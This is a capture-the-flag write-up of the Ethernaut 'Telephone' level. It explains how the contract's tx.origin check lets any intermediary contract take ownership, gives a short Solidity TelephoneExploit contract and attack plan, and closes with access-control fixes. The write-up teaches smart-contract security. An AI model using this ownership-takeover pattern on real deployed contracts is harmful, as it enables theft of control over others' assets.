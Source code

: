 # Level 4 - Telephone

## Objectives

- claim ownership of the contract

## Contract Overview

The first thing that caught my attention in the `Telephone` contract was the
condition inside the `if` statement. In the `changeOwner()` function the
`tx.origin != msg.sender` check is exactly the opposite of what I suggested in
the recommendations on the previous level. In the `CoinFlip` contract, it would
have been good to check if the caller is an EOA, to make sure that contracts are
not part of the game. It could have been done with `tx.origin == msg.sender`.

In the `Telephone` contract, it is the opposite. The contract is checking if the
caller is a smart contract.

A `Telephone` contract has one function `changeOwner` which allows any smart
contract to change the owner of the `Telephone` contract.

## Finding the weak spots

The `changeOwner` is responsible for the critical action of changing ownership.
However, it is not protected by any security checks (like `onlyOwner` modifier).
It allows anyone to change the owner of the smart contract which is probably not
intended.

The `Telephone` contract relies on the `tx.origin` which is prone to
[phishing attacks](https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-usage-of-txorigin).
It might also be
[removed in the future](https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof/200#200),
which may result in compatibility issues.

The contract also does not emit events on
[the critical access control parameters](https://github.com/crytic/slither/wiki/Detector-Documentation#missing-events-access-control),
which makes it difficult to track the ownership changes off-chain.

## Potential attack scenario - hypothesis

_Eve is our attacker_

Eve can create a smart contract, which will call the `Telephone` contract and
change the owner to Eve.

## Plan of the attack

1. Eve calls the `attack` function on her `TelephoneExploit` contract.
2. The `attack` function makes a call to the `Telephone` contract.
3. This call invokes the `changeOwner` function with Eve's address as an
   argument.
4. The ownership is claimed by Eve.

## Proof of Concept - hypothesis test ✅

Here is the `TelephoneExploit` contract:

```solidity
contract TelephoneExploit {
	Telephone telephone;

	constructor(address _telephoneContractAddress) public {
		telephone = Telephone(_telephoneContractAddress);
	}

	function attack(address _newOwner) public {
		telephone.changeOwner(_newOwner);
	}
}
```

Simplified version of the unit test that shows the exploit
([full version here](https://github.com/ChmielewskiKamil/ethernaut-foundry/blob/main/test/04-Telephone.t.sol)):

```solidity
telephoneExploit.attack(eve);
```

Here are the logs from the exploit:

![Logs from the Telephone exploit](https://github.com/ChmielewskiKamil/ethernaut-foundry/blob/main/img/04-Telephone-exploit-logs.png?raw=true)

## Recommendations

- The use of some form of access control is recommended. An example of that
  might be OpenZeppelin Ownable, which provides a basic access control mechanism
  or OZ AccessControl which provides role-based access control.
- The use of `tx.origin` should be removed from the contract.
- Emission of events should be added to the critical `changeOwner()` function.
  It will result in better communication with off-chain components and a better
  user experience overall.

## References

- [Usage of tx.origin - ToB - Slither Detector](https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-usage-of-txorigin)
- [Missing events on access control - ToB - Slither Detector](https://github.com/crytic/slither/wiki/Detector-Documentation#missing-events-access-control)
- [Tx.origin might not be usable in the future - V. Buterin](https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof/200#200)
- [More info on tx.origin - Consensys Diligence](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/tx-origin/)
